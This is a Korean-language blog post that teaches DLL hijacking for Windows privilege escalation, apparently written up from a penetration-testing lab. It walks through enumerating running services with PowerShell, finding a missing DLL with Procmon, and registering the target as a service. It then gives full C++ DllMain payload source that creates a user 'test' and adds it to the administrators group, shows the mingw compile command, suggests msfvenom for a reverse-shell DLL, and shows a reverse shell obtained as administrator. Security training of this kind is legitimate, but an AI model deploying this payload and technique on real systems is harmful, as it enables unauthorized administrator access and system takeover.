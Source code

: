 ```yaml
---
layout: post
title: DLL hijacking 방법
subtitle: DLL 하이잭킹 방법
category: knowledge
thumbnail-img: /assets/img/knowledge/procmon.png
tags: [knowledge, dll, hijacking, missingdll, procmon]
author: Hong
---
```


# dll search order

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

# missing dll 찾기

필요한 dll이 없는 경우 페이로드를 dll로 꾸며서 놓으면 실행되는 점을 노린다.

아래의 명령어로 설치된 앱들의 리스트를 확인해본다.

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

혹은 아래의 명령어로 실행중인 앱의 리스트를 확인한다.

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

그럼 아래와 같이 나오는데 이 중 관리자 권한이 아닌 폴더들의 앱을 눈여겨본다.

```
Apache2.4              Running "C:\xampp\apache\bin\httpd.exe" -k runservice
AppReadiness           Running C:\Windows\System32\svchost.exe -k AppReadiness -p
AppXSvc                Running C:\Windows\system32\svchost.exe -k wsappx -p
...
mysql                  Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
Scheduler              Running "C:\Scheduler\scheduler.exe"
...
cbdhsvc_147689         Running C:\Windows\system32\svchost.exe -k ClipboardSvcGroup -p
CDPUserSvc_147689      Running C:\Windows\system32\svchost.exe -k UnistackSvcGroup
WpnUserService_147689  Running C:\Windows\system32\svchost.exe -k UnistackSvcGroup
```

Apache, Mysql, Scheduler 이 3개를 중점적으로 보면서 진행해보자.

**위 내용은 binary hijacking과도 관련이 있다. 나중에 시간이 되면 포스팅해보겠다.**

# Procmon으로 dll관련 동작을 살펴본다.

파일이 실행되면서 어떤 dll 파일을 이용하는지 보기 위해 procmon을 사용한다.

하지만 관리자 권한이 없으면 procmon을 실행 할 수 없기 때문에 확인하고 싶은 서비스를
로컬로 옮긴 후 관리자 권한이 있는 윈도우 머신에서 procmon을 실시한다.

**window - linux간의 파일 전송은 smb서버가 (impacket-smbserver) 개꿀딱**

procmon을 그냥 두면 매초 결과창이 엄청 뜨기 때문에 필터로 관심있는 프로세스를 필터링한다.

![procmon](/assets/img/knowledge/procmon.png)

scheduler를 실행하기위해 sc.exe에 태스크를 만들어서 실행시킨다.

sc에 등록하기 위해서는 관리자 권한으로 터미널을 실행해야 하니까 주의.

```
C:\Windows\system32>sc.exe create scheduler binPath= "C:\Users\offsec\desktop\scheduler.exe"
[SC] CreateService SUCCESS
```

procmon을 설정해놓고 sc로 파일을 실행하면 내용을 확인 할 수 있다.

sc에 등록해서 실행하지않고 그냥 더블클릭으로 실행하면 내용물이 달라지니 주의.

```
C:\Windows\system32>net start scheduler
The scheduler service is starting..
The scheduler service was started successfully.
```

missing dll을 찾는 경우 필터에서 result를 NAME NOT FOUND로 하면 출력물이 줄어서 발견하기 쉽다.

다음과 같이 같은 폴더에서 dll을 찾는 것을 볼 수 있다.
![missingdll](/assets/img/knowledge/missingdll.png)

이제 페이로드를 담은 dll을 만들고 파일을 실행시켜서 리버스쉘을 획득하자.

# 페이로드 작성

아래의 예제를 활용해서 원하는 페이로드를 만든다.

아래는 유저를 만들어서 관리자에 추가하고 있다.

```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user test test /add");
  	    i = system ("net localgroup administrators test /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

칼리에서 컴파일해서 보내주도록 한다.

```
sudo apt-get install mingw-w64
x86_64-w64-mingw32-gcc 페이로드.cpp --shared -o 발견한dll.dll
```

아니면 그냥 msfvenom을 이용해서 리버스쉘 dll을 만들어도 괜찮다.

만든 dll파일을 원래 폴더에 옮겨두고 실행한다.

파일을 배치한 후 실행하면?

```
connect to [192.168.45.155] from (UNKNOWN) [192.168.110.191] 63345
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
intranet\administrator
```

리버스쉘 연결!
